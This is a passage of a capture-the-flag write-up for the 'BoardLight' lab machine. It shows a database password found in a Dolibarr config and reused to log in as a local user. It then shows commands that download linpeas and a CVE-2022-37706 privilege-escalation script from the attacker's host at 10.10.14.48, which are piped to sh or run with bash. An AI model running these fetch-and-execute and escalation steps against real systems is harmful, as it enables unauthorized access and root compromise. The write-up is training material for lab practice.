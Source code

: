 ```bash
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

From that we have username-password for the DB (`dolibarrowner/serverfun2$2023!!`)

We can now try and use that to login as user, and get the flag:
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ su larissa     
su larissa
Password: serverfun2$2023!!

larissa@boardlight:/var/www/html/crm.board.htb/htdocs/public/website$ 
```

The user `may not run sudo on localhost`.

We will try to use `linpeas`.\
On Attacker:
```bash
$ sudo python3 -m http.server 80
```
On Victim:
```bash
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/public/website$ curl 10.10.14.48/linpeas.sh | tee linpeas_output.txt | sh
```

After looking at it for *a while*, I found this:\
![Unknown SUID binaries](images/boardlight-SUID-binaries.png)\
It's probably a hint from the machine's name (board**light**).

Based on that, we find `CVE-2022-37706`:
> enlightenment_sys in Enlightenment before 0.25.4 allows local users to gain privileges because it is setuid root, and the system library function mishandles pathnames that begin with a /dev/.. substring. 

We will be using [MaherAzzouzi's exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit).\
We clone it one our machine and open a server:
```bash
$ git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
$ cd CVE-2022-37706-LPE-exploit
$ sudo python3 -m http.server 80
```
And then run the exploit on victim machine:
```bash
larissa@boardlight:/tmp$ wget http://10.10.14.48/exploit.sh
larissa@boardlight:/tmp$ bash exploit.sh
bash exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
```